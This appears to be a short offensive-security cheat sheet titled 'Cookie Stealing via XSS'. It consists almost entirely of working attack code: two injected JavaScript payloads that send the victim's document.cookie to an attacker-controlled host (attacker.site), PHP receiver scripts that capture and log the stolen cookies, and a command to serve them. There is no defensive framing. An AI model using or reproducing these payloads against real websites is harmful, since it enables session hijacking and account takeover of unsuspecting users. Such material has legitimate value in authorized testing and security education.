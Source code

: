 # Cookie Stealing via XSS

## Ex (1): 
```js
// One Liner: <script>new Image().src="http://attacker.site/log.php?q="+document.cookie</script>
<script>
  var i = new Image();
  i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

## Attacker Controlled Site (1) (`log.php`):
```php
<?php
  $filename="/tmp/log.txt";
  $fp=fopen($filename, 'a');
  $cookie=$_GET['q'];

  fwrite($fp, $cookie);
  fclose($fp);
?>
```

-----

## Ex (2):
```js
<script>location.href='http://attacker.site/index.php?q='+document.cookie</script>
```


## Attacker Controlled Site (2) (`index.php`):
```php
<?php
  $cookie = isset($_GET['q']) ? $_GET['q']:"";
?>
```

```shell
$ php -S IP:8008
```

**By 0xRar**
